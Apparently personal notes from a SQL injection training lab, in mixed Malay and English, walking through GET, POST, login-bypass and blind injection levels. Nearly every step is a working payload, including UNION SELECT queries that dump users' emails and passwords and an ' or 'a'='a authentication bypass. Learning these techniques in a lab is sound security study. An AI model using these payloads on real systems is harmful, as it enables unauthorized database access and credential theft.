 # SQL-Injection-Training-Lab-notes
SQL Injection Training Lab notes for myself

## Level A - Basic GET SQL Injection
first payload for sqli `'` `"` `\` `)'` `}'` `\'` to test injectable

example page error after, use payload `'`

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/4e32639f-6c0e-4c82-bf67-317bc2ff01df)

if blind base does not have error

example page injectable and back to normal page after, use payload `'--+`
`--` komen untuk sql
`+` untuk space di url

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/417f7304-7b32-4688-8702-e50e97ce6bad)

payload `'+order+by+6--+` untuk cari berapa column yang ada dlm db, contoh sampai 6 dpt error bermaksud ada 5 colomn dlm db ini

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/728fa968-dfb5-4570-a786-c663f8b35833)

payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk tgk username dan email dikeluarkan berada di column no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code contoh `@@version` untuk check version , `database()` untuk check nama db, `user()` untuk check username db. jika string union all select detect guna hex iaitu %61 atau no2 lain
 
![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e68c2dec-1ada-4a95-82de-d3c84da608fc)

payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables--+` untuk senaraikan semua db table dlm db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/75903416-fec8-4ba8-b5a1-d6befaa5ec0f)

payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--+` untuk filter untuk current db sahaja mcm payload atas

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c3f53df9-f9db-4f76-9c1c-a5f5fd80db56)

payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()--+` untuk display semua jenis column untuk db 

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5c3f8a18-58f9-450b-8b34-6744b7f72d59)

payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='users'--+` untuk display semua jenis column untuk db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/20974b51-155d-44e1-b871-609104d9eebd)

payload `?id=-1'+union+all+select+1,group_concat(email),group_concat(password),4,5+from+users--+` untuk display email dan password sebab kita dah tahu table mana untuk guna

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9dd9dab2-4e32-46bd-add4-1fe787a87b68)

## Level B - Basic POST SQL Injection
beza get dgn post, kalu post tiada di url, kalu ada dia get

payload `user1'` untuk test error page

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9b258237-6335-4e64-84cd-e29f02e2776b)

payload `user1'-- ` untuk test vuln dan back to normal page, tips guna `space` untuk ganti `+` di get method

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e2337ce0-2c05-440b-85ba-c5aea13b2fd2)

payload `user1'order by 5-- ` untuk cari berapa column yang ada dlm db, contoh sampai 6 dpt error bermaksud ada 5 colomn dlm db ini
![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f1887807-0685-4449-b862-9c7a6161d3c8)

payload `user-1'union all select 1,2,3,4,5-- ` untuk tgk username dan email dikeluarkan berada di column no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/779ad3ae-ad74-440d-b9c9-699f86e803c4)

payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables-- ` untuk senaraikan semua db table dlm db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/31af9e0f-04ac-4619-a3be-74ae349f2f92)

payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()-- ` mcm step atas tapi ini filter kpd current db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bc76091e-ebe5-494d-83c1-f2347a55f614)

payload `user-1'union all select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name='users' and table_schema=database()-- ` untuk display semua jenis column untuk db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5f3e4061-f448-4a3d-9985-f9624eee7177)

payload `user-1'union all select 1,group_concat(email),group_concat(password),4,5 from users-- ` untuk senarai email dan password

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/dc5c638f-be2f-4c0c-b3f9-5d86750151c9)

## Level C - POST Bypass Auth
payload `'` untuk check error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/6ba94a2a-bda7-4d3e-8305-d6582f79378b)

payload `'-- ` untuk repair error dan page ni vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/fd5010f6-14d0-4c94-9edf-03ea16485da9)

payload `' or 'a' = 'a` untuk bypass login dan letak di password sekali, auto dpt masuk

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f30df5d1-917f-4475-aabf-e3b9a0631812)

## Level D - GET Blind Based
blind sama dgn get method

payload `'` untuk test error page tapi blind tiada error atau data tk keluar page mcm gambar

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/622c5881-2e02-498b-b282-16e20422c651)

payload `'--+` untuk repair dan page vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/7f368d86-c3f8-4dc7-abc5-d3fa1cb2b789)

payload `'+order+by+5--+` untuk cari berapa column yg ada dlm db contoh 6 dpt blind error so db ada 5 column

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bbccdea2-3ebb-4987-9704-8a587d2299d1)

payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk tgk username dan email dikeluarkan berada di column no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/d1a51e4f-3619-4ea8-ab1d-2a9d67def8e2)

seterusnya step sama dgn get method
